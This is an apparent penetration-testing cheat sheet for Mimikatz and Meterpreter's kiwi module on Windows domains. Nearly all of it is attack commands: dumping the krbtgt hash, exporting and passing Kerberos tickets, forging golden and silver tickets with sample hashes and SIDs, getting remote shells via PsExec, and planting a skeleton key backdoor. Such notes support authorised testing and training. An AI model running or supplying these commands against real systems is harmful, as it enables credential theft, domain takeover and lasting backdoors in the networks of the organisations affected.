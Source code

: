 ```yaml
---
title: MIMIKATZ
summary: "A tool to play with Windows security, written in C."
description: "A tool to play with Windows security, written in C."
---
```


**[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)**

## Basis


 > 
 > **<font color=red>load kiwi</font>**</br>
 > Starts Mimikatz.

 > 
 > **<font color=red>help kiwi</font>**</br>
 > Show Mimikatz commands.


 > 
 > **<font color=red>privilege::debug</font>**</br>
 > Ensure that current user has administrator privileges (the output should be `[output '20' OK]`). This indicates that debugging a process is possible.

## Enumeration


 > 
 > **<font color=red>systeminfo</font>**</br>
 > Display system infos.
 > 
 > **<font color=red>ipconfig</font>**</br>
 > Display infos about network interfaces.

 > 
 > **<font color=red>getuid</font>**</br>
 > User infos.
 > 
 > **<font color=red>getprivs</font>**</br>
 > Display current user privileges. 

## File Upload


 > 
 > **<font color=red>upload</font> myFile**</br>
 > Transfer file to target.

## Spawn Shell


 > 
 > **<font color=red>shell</font>**</br>
 > Open a shell.

## Initial Access


 > 
 > **<font color=red>misc::cmd</font>**</br>
 > Open a new elevated command prompt with the given ticket in Minikatz.

 > 
 > **<font color=red>dir \\\\TARGET-MACHINE-NAME\\c$</font>**</br>
 > List files in c drive of the machine.

 > 
 > **<font color=red>PsExec.exe </font>\\\\TARGET-MACHINE-NAME<font color=red>cmd.exe</font>**</br>
 > Get a shell on the machine.

## Pass the Ticket


 > 
 > **<font color=red>sekurlsa::tickets /export</font>**</br>
 > Export all `.kirbi` tickets into the current directory.


 > 
 > **<font color=red>kerberos::ptt</font> myTicketFromSekurlsa<font color=red>.kirbi</font>**</br>
 > Cache and impersonate the given ticket.

## Golden/Silver Ticket


 > 
 > **<font color=red>lsadump::lsa /inject /name:</font>krbtgt**</br>
 > Dump hash and security identifier required to create a Golden Ticket. 

Note: To create a Silver Ticket, change the `/name:` to a domain admin account or a service account.

![exploit-lsadump-golden_ticket.png](../attachments/exploit-lsadump-golden_ticket.png)
Credit: TCM Security

 > 
 > **<font color=red>kerberos::golden /user:</font>Administrator <font color=red>/domain:</font>mycontroller.local <font color=red>/sid:</font>S-1-5-21-432953485-3795405108-1502158860  <font color=red>/krbtgt:</font>72cd714611b64cd4d5550cd2759db3f6 <font color=red>/id:500 /ptt</font>**</br>
 > Create a golden ticket (`/ptt` stands for Pass The Ticket, if we don’t put it, the command will save the ticket to a file).

Note: To create a Silver Ticket, simply put a service NTLM hash into the `/krbtgt:` slot, the sid of the service account into `/sid:`, and change the `/id:` to 1103.

## Skeleton Key


 > 
 > **<font color=red>misc::skeleton</font>**</br>
 > Create a backdoor with credentials "mimikatz". 

 > 
 > **<font color=red>dir \\\\</font>Desktop-1<font color=red>\\c$</font> <font color=red>/user:</font>Machine1 <font color=red>mimikatz</font>**</br>
 > List C: drive content using Skleton Key backdoor. 
